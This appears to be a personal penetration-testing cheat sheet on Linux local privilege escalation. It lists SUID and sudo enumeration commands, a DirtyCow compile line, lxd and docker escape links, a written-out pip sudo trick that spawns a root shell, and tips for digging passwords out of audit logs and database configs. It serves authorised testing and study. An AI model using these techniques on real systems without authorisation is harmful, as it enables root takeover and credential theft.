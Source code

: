 # Local Priv Esc
#linux #lpe
https://gtfobins.github.io/
https://lolbas-project.github.io/#
https://book.hacktricks.xyz/linux-unix/privilege-escalation

- Get OS information
- Check if the sudo version is vulnerable
	- sudo -v
	- sudo -l
- Check the PATH, any writable folder?
	- `set`
- Check env variables, any sensitive detail?
- Search for kernel exploits using scripts (DirtyCow?)
	- https://www.exploit-db.com/exploits/40839
	- gcc -pthread shell.c -o dirty -lcrypt
- Dmesg signature verification failed error?
- More system enum (date, system stats, cpu info, printers)
- Enumerate more defenses
	- #LinPEAS: https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh


# Sticky-Bit

```
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```

## Unsanitized paths
#unsanitizedpath #path
See [[Unsanitized Path]].

# Find files belonging to user

`find / -user <user> 2>/dev/null | egrep -v "proc|venv"`
`find / -group <group> 2>/dev/null | egrep -v "proc|venv"`

# Exploit via Path if SUID-Binary does not use full path
https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/

# Exploit lxd group
https://www.hackingarticles.in/lxd-privilege-escalation/

# pip
`pip3 install <local_dir>` searches the local dir for a setup.py and executes it. Helpful if pip is in the sudoers or sbit.

Alternative (https://gtfobins.github.io/gtfobins/pip/):

`TF=$(mktemp -d)`
`echo "import os;os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py`
`sudo -H /usr/bin/pip3 install $TF`

# Audit-Logs
grep audit-logs for "data=" and decode as hex. Might contain passwords

# Docker
Dowload: https://github.com/PercussiveElbow/docker-escape-tool
`./docker-escape auto`

# Search for credentials
## DBs
If mysql or mariadb is running, search for credentials in the config files for web apps. Sometimes there are hashes to crack and password reuse is a steady friend.

# Check for autologin
- Check for autologin
- `/etc/autologin`